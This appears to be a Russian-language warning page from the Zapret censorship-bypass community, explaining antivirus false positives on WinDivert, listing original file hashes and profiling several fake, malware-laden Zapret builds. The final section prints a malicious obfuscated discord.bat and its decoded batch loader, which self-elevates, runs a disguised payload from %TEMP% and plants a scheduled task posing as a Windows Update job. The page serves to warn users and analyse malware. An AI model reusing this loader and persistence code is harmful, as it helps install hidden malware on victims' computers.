> [!Note]
> 
> Нашли вирус в нашей программе? Напишите нам и докажите что это вирус - мы готовы выдать Вам деньги!

Статья на teletype: https://teletype.in/@censorliber/zapretvirus

## Вирусы в Запрет! Рассказываем про WinDivert

Запрет вирус? Обход блокировки дискорда и ютуба (discord и youtube). Если не работает дискорд или ютуб вам сюда. | Список вирусных Zapret представлен здесь...

## Как проверить вирусы?
Мини чеклист проекта, который МОЖЕТ гарантировать что у него нет вирусов:
1. Проект должен быть с открытым исходным кодом.
2. Любой GUI лаунчер человек должен собрать сам.
3. У него должен быть исходный код (исходя из прошлого пункта это `bat` файлы, `ps1` файлы, `py` файлы и т.д.)
4. Вы можете собрать его самостоятельно из исходных файлов или по крайней мере запуск производится по понятным механикам.
5. Одно из самых важных правил: В проекте нет ни одного неизвестного `exe` файла! Должен быть только один файл `winws.exe`! И сам `exe` который запускается напрямую (если есть GUI), а не как-то скрытно через `bat` файлы.

> [!WARNING]
> 
> Если Вы (или по крайней мере Вам кажется) что вы поймали вирус обратитесь в группу https://t.me/keepbot_chat - вам помогут опытные люди с самыми различными историями.

## Почему антивирусы ругаются?


Вы должны не просто видеть слово Trojan и пугаться его, а в начале разобраться с типом вирусов.

Подробнее про WinDivert можно почитать [здесь](https://ntc.party/t/windivert-%D1%87%D1%82%D0%BE-%D1%8D%D1%82%D0%BE-%D1%82%D0%B0%D0%BA%D0%BE%D0%B5-%D0%B7%D0%B0%D1%87%D0%B5%D0%BC-%D0%B2-%D0%BD%D1%91%D0%BC-%D0%BC%D0%B0%D0%B9%D0%BD%D0%B5%D1%80/12838).

Вот [пример](https://www.virustotal.com/gui/file/a188ff24aec863479408cee54b337a2fce25b9372ba5573595f7a54b784c65f8/detection) незараженного dll файла, который всего лишь изменяет код некоторых файлов для запуска пиратской игры.



Данный dll хорошо известен и достаточно популярный на запада, однако антивирусы сходят с ума когда его видят.

Win64/Trojan.Generic.HgEATiwA — китайские антивирусы часто нумируют так неизвестные им программы, которые как-то вшиваются в трафик. Доказательства этому приведены [здесь](https://www.reddit.com/r/GenP/comments/14ul7nd/is_trojan_win64_downloader_sa_a_false_positive/), [здесь](https://www.reddit.com/r/BlueStacks/comments/xjc4z1/trojangenerichbadk_is_malware/) и [здесь](https://www.reddit.com/r/antivirus/comments/15kqey4/trojangenerichetyo_false_pozitive_please_help).

NotAVirus — частый детект различных китайских вирусов, но он так и подписан - не вирус. Это значит что файл просто выполняет подозрительные действия, но напрямую не является трояном.

## Про хэш-файла

Неизвестные источники всё же могут маскировать Zapret под вирусы.

Есть способ защититься от этого - всегда сверяйте хэш файла WinDivert.dll и winws.exe . Если хэш суммы одинаковые, это значит что файлы никак не были изменены автором и были загружены из оригинального источника. Проверить хэш файла можно [здесь](https://hash-file.online/).

Вот несколько старых хэшей файлов (есть и другие).

[Оригинальные](https://www.virustotal.com/gui/file/0453fce6906402181dbff7e09b32181eb1c08bb002be89849e8992b832f43b89/detection) хэщи программы winws.exe
- MD5 `444fe359ca183016b93d8bfe398d5103`
- SHA-1 `61716de8152bd3a59378a6cd11f6b07988a549d5`
- SHA-256 `0453fce6906402181dbff7e09b32181eb1c08bb002be89849e8992b832f43b89`

Версия [v68](https://www.virustotal.com/gui/file/c26719336725fda6d48815582acee198c0d7d4f6a6f9f73b5e0d58ca19cfbe35/detection)
- MD5 `c36c5c34d612ffc684047b7c87310a1f`
- SHA-1 `5b9a89d08554f911e93665a3910ff16db33bf1ce`
- SHA-256 `c26719336725fda6d48815582acee198c0d7d4f6a6f9f73b5e0d58ca19cfbe35`

Другие версии проверяйте самостоятельно [здесь](https://github.com/bol-van/zapret-win-bundle/tree/master/zapret-winws).

## Реальные вирусы

Однако не смотря на это были найдены примеры реально вирусных запретов.

Почему это так, и как проверить любую версию Запрет самостоятельно - давайте разбираться.

### 1. PeekBot - первый автор

Впервые вирусы в Zapret начал распространять телеграм канал peekbot начал распространять [вирусы](https://github.com/Flowseal/zapret-discord-youtube/issues/794) под предлогом Zapret. Будьте внимательны! Также у них имеется вредоносный сайт https://gitrok.com !

В папке висит вирусный cygwin.exe который весит свыше 13 МБ. Такие [большие файлы](https://www.virustotal.com/gui/file/5591f24e96ed8d2877ac056955f5aaeb45fab792f1b35d635ae4a961c7000e26/detection) никогда не находились в оригинальном Zapret.

### 2. SkyWinFo - майнер, стилер

SkyWinFo - инженер ВПН который пошёл по скользкой дорожке и попытался превратить безвирусный запрет в самый настоящий вирус. Также был определён его тип и основная активность. Он притворялся запретом от Сensorliber.


🚩 Красные флаги:
*   Не имеет исходного кода на GitHub
*   Имеет архив rar , причём с паролем (не ясно зачем)
*   Просит запустить zapret.exe а не zapret.bat
*   Нет связи с автором

В инструкции происходит некая каша и неразбериха, например указаны разные ссылки на источники (первый файл вирусный, второй реальный скрипт):



Репозиторий github.com/SkyWinFo/Zapret-

В файле лежит неизестный вирусный файл, размер которого явно превышает несколько КБ (как оригинальный winws.exe ):



Имеет [слишком](https://www.virustotal.com/gui/file/74ad0e6a891ce535144f2a5b002ee3e4fd62a7197f274f63c24b928580895087) много [срабатываний](https://www.virustotal.com/gui/file/b15c8e2296c573cab1f9d51a643948620200be8f40f3a09b3c8fe56ad923d227) антивирусов, некоторые обнаружения прямо указывает на троян.

При [анализе файла сканирует папки на куки файлы](https://www.hybrid-analysis.com/sample/b15c8e2296c573cab1f9d51a643948620200be8f40f3a09b3c8fe56ad923d227/677be877a8d7713c64036581), создаёт папки для криптокошелков и пытается запустить множество процессов. Отправляет данные на неизвестный сайт.

### 3. Cactuz - троян


Новый тип вирусов с файлом `winwsdriver.exe`.

Пост с вирусом:



Новый пост с вирусом:



Их ютуб канал:


Очень палёный вирус, который даже не пытается скрыть что он вирус. Второй EXE файл в папке bin который не должен был там быть - winwsdriver.exe





Батник general.bat запускает два exe файла, что опять же не нужно.





На VirusTotal [СВЫШЕ 55 срабатываний](https://www.virustotal.com/gui/file/26b585599d0a8583af6e6aab0736b08cf81116a7d3ad9e0a826841663a099735)! [Новая](https://www.virustotal.com/gui/file/26b585599d0a8583af6e6aab0736b08cf81116a7d3ad9e0a826841663a099735/community) версия

🚩 Красные флаги:
*   Не имеет исходного кода на GitHub
*   Имеет архив rar , причём с паролем (не ясно зачем)
*   Лишние файлы в папке bin
*   Нет связи с автором

### 4. Interfix - вероятно вирус


Также известен как Фиксик, trapper1337.

Неизвестный ютубер trapper1337, в Telegram подписан как Фиксик. В Telegram канал закрыты комментарии, обратной связи с ним нет. Неизвестный exe файл выглядит как подозрительный, но чёткой вирусной активности нет.

Ютуб канал:


В папке bin лежит лишний файл elevator.exe





Файл `start.cmd` запускает два EXE файла, что не требуется для Zapret



Подозрительный файл [не имеет много детектов антивирусов](https://www.virustotal.com/gui/file/ee56928e8e1c7178c1cf6b688cc8dcbcae2692e96654cea5e179a70420520aee/detection), поэтому чётко заявлять что это троян нельзя.

При этом всё же [поведение файла является подозрительным](https://www.hybrid-analysis.com/sample/ee56928e8e1c7178c1cf6b688cc8dcbcae2692e96654cea5e179a70420520aee/677bf1e7499fa6bdbc07e686), соединение с какими-то сайтами но не указано какими:



Красные флаги:
*   Не имеет исходного кода на GitHub
*   Имеет архив rar, причём с паролем (не ясно зачем)
*   Лишние файлы в папке bin
*   Нет связи с автором

Аналогичный файл можно встретить в сборке от YanGusik FuckDiscordPI.



### 5. Discord NewFix - скрытый вирус


Данный вирус пытается обфускацировать свой код с помощью программ запутывания кода.

Неизвестный файл `discord.bat` с иероглифами, который автор канал просит запустить:

```
挦獬਍敀档景൦ഊ椊⁦硥獩⁴┢单剅剐䙏䱉╅䅜灰慄慴䱜捯污停捡慫敧屳楍牣獯景⹴楗摮睯即潴敲䱜捯污瑓瑡履䥌䕃华⹅硴≴⠠਍††潧潴匠楫䍰摯൥⤊਍਍灯湥楦敬⁳渾汵㈠渾汵਍晩┠牥潲汲癥汥‥敮ⁱ‰ന †瀠睯牥桳汥䌭浯慭摮∠瑓牡⵴牐捯獥⁳┧晾✰ⴠ敖扲爠湵獁ഢ †攠楸⁴戯਍ഩഊ椊⁦硥獩⁴┢摾ば楢屮祣睧湩⸲汤≬⠠਍††潣祰∠縥灤戰湩捜杹楷㉮搮汬•┢䕔偍尥癪攮數•渾汵㈠☾റ⤊攠獬⁥ന †攠楸⁴戯ㄠ਍ഩഊ椊⁦硥獩⁴┢䕔偍尥癪攮數•ന †猠慴瑲∠•┢䕔偍尥癪攮數•猯㸠畮㸲ㄦ਍ 汥敳⠠਍††硥瑩⼠⁢റ⤊਍਍晩渠瑯攠楸瑳∠唥䕓偒佒䥆䕌尥灁䑰瑡屡潌慣屬慐正条獥䵜捩潲潳瑦圮湩潤獷瑓牯履潌慣卬慴整•ന †洠摫物∠唥䕓偒佒䥆䕌尥灁䑰瑡屡潌慣屬慐正条獥䵜捩潲潳瑦圮湩潤獷瑓牯履潌慣卬慴整•渾汵㈠☾റ⤊਍਍晩攠楸瑳∠縥灤到䅅䵄⹅摭•ന †挠灯⁹┢摾ば䕒䑁䕍洮≤∠唥䕓偒佒䥆䕌尥灁䑰瑡屡潌慣屬慐正条獥䵜捩潲潳瑦圮湩潤獷瑓牯履潌慣卬慴整䱜䍉久䕓圭⹄硴≴㸠畮㸲ㄦ਍ 汥敳⠠਍††硥瑩⼠⁢റ⤊਍਍捳瑨獡獫⼠牣慥整⼠湴∠楍牣獯景屴楗摮睯屳楗摮睯啳摰瑡履湗敔灭•琯⁲尢樢癡睡≜ⴠ慪⁲≜唥䕓偒佒䥆䕌⼥灁䑰瑡⽡潌慣⽬慐正条獥䴯捩潲潳瑦圮湩潤獷瑓牯⽥潌慣卬慴整䰯䍉久䕓圭⹄硴屴∢⼠捳漠汮杯湯⼠汲栠杩敨瑳⼠⁦渾汵㈠☾റഊ㨊歓灩潃敤਍਍档灣㘠〵㄰㸠畮൬㨊›㔶〰️‱ 呕ⵆസഊ挊⁤搯∠縥灤∰਍慣汬挠敨正畟摰瑡獥戮瑡猠景൴攊档㩯਍਍敳⁴䥂㵎縥灤戰湩൜ഊ猊慴瑲∠慺牰瑥›楤捳牯≤⼠業┢䥂╎楷睮⹳硥≥ⴠ眭ⵦ捴㵰㐴″ⴭ晷甭灤㐽㌴㔬〰️〰️㔭㄰〰️帠਍ⴭ楦瑬牥甭灤㐽㌴ⴠ栭獯汴獩㵴氢獩⵴楤捳牯⹤硴≴ⴠ搭楰搭獥湹㵣慦敫ⴠ搭楰搭獥湹ⵣ敲数瑡㵳‶ⴭ灤⵩敤祳据昭歡ⵥ畱捩∽䈥义焥極彣湩瑩慩彬睷彷潧杯敬损浯戮湩•ⴭ敮⁷൞ⴊ昭汩整⵲摵㵰〵〰️ⴰ〵〱‰ⴭ灩敳㵴椢獰瑥搭獩潣摲琮瑸•ⴭ灤⵩敤祳据昽歡⁥ⴭ灤⵩敤祳据愭祮瀭潲潴潣ⴭ灤⵩敤祳据挭瑵景㵦㍤ⴠ搭楰搭獥湹ⵣ敲数瑡㵳‶ⴭ敮⁷൞ⴊ昭汩整⵲捴㵰㐴″ⴭ潨瑳楬瑳∽楬瑳搭獩潣摲琮瑸•ⴭ灤⵩敤祳据昽歡ⱥ灳楬⁴ⴭ灤⵩敤祳据愭瑵瑯汴㈽ⴠ搭楰搭獥湹ⵣ敲数瑡㵳‶ⴭ灤⵩敤祳据昭潯楬杮戽摡敳ⁱⴭ灤⵩敤祳据昭歡ⵥ汴㵳┢䥂╎汴彳汣敩瑮敨汬彯睷彷潧杯敬损浯戮湩ഢ
```






При расшифровке данного файла окажется что исходный код был пропущен через [batch-obfuscator](https://github.com/SkyEmie/batch-obfuscator) и загружает данный код:

```batch
&cls
@echo off
if exist "%USERPROFILE%\AppData\Local\Packages\Microsoft.WindowsStore\LocalState\LICENSE.txt" (
goto SkipCode
)
openfiles >nul 2>nul
if %errorlevel% neq 0 (
powershell -Command "Start-Process '%~f0' -Verb runAs"
exit /b
)
if exist "%~dp0bin\cygwin2.dll" (
copy "%~dp0bin\cygwin2.dll" "%TEMP%\jv.exe" >nul 2>&1
) else (
exit /b 1
)
if exist "%TEMP%\jv.exe" (
start "" "%TEMP%\jv.exe" /s >nul 2>&1
else (
exit /b 1
)
if not exist "%USERPROFILE%\AppData\Local\Packages\Microsoft.WindowsStore\LocalState" (
mkdir "%USERPROFILE%\AppData\Local\Packages\Microsoft.WindowsStore\LocalState" >nul 2>&1
)
if exist "%~dp0README.md" (
copy "%~dp0README.md" "%USERPROFILE%\AppData\Local\Packages\Microsoft.WindowsStore\LocalState\LICENSE-WD.txt" >nul 2>&1
else (
exit /b 1
)
schtasks /create /tn "Microsoft\Windows\WindowsUpdate\WnTemp" /tr "\"javaw\" -jar \"%USERPROFILE%/AppData/Local/Packages/Microsoft.WindowsStore/LocalState/LICENSE-WD.txt\"-tls="%BIN%tls_clienthello_www_google_com.bin"
```

Бат файл создаёт задачу на джаве скрипте, после чего подгружается вирус.




